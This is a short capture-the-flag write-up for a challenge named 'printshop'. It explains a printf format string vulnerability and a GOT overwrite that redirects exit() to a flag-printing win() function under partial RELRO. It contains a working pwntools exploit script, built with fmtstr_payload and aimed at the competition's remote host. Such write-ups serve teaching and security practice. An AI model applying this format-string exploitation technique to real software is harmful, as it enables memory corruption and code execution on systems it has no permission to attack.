 ![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c4759a08-da21-4215-a8c6-183d5c42fc8a)

we can see that there is a security vulnerability in the way that this function uses printf. 

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/53311732-0e2a-42f0-a3d5-a47e8faeb402)
Since the binary only has partial RELRO, then we can leverage a format string vulnerability to write into the GOT

We want to replace the address of `exit()`, with the address of `win()`, a function that will print the flag.

Solve Script:
```python
#!/usr/bin/env python2

import os
import re
import sys

from pwn import *

context.arch = 'amd64'
context.bits = 64

exit_got = 0x404060
win = 0x40129d
writes = {exit_got:win}
payload = fmtstr_payload(6, writes, 0)
print(payload)
#p = process("./printshop")
p = remote('chal.pctf.competitivecyber.club',7997)

p.sendline(payload)
p.interactive()
```
